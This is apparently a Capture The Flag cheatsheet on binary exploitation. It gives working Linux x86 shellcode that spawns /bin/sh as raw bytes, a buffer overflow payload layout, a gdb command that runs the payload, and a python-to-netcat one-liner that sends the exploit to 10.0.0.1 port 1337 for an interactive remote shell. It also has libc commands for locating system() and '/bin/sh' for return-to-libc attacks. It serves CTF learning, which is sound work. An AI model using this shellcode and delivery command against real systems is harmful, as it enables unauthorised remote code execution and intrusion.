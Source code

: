 # Capture The Flag Cheatsheet

Example commands to aid in solving CTF problems.

## Binary Exploitation

#### Using 32-bit Shellcode

Reliable Linux/x86 (32-bit) shellcode. To find shellcode for your target architecture, see [shell-storm's list](http://shell-storm.org/shellcode/).

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
Anatomy of a payload for buffer overflow:

```
Buffer start                                                     Saved EBP              Return address                     Next Return address       Argument list
|                                                                |                      |                                  |                         |
[optional NOP (0x90) bytes] [injected shellcode] [padding bytes] [fake/garbage address] [desired return address (&callee)] [callee's return address] [optional argument 1] [optional argument 2, etc]
```

Debugging shellcode in gdb - open binary, set a breakpoint at the start of the vulnerable function, run with payload bytes sent to stdin.

```
gdb ./binary
(gdb) b vuln_func
(gdb) r < <(python2 -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x90"*111 + "\x90"*4 + "\x80\xa0\x04\x08"')
```
In gdb, just before a vulnerable function returns examine two words before above the frame's base pointer to verify the correct return address has been set:

```
(gdb) x/2xw $ebp
```

Send the payload to server 10.0.0.1, listening on port 1337. Note the appended cat command keeps the netcat sesssion open, granting an interactive shell:

```
(python2 -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x90"*111 + "\x90"*4 + "\x80\xa0\x04\x08"'; cat) | nc 10.0.0.1 1337
```
#### Computing offsets into libc

Assume you the know the address, in memory, at which libc has been loaded and have a local copy of the same libc version. To get offset of system():

```
readelf -s /lib/x86_64-linux-gnu/libc-2.21.so | grep "system"
```

To get the offset of the "/bin/sh" string:

```
strings -t x /lib/x86_64-linux-gnu/libc-2.21.so | grep "/bin/sh"
```

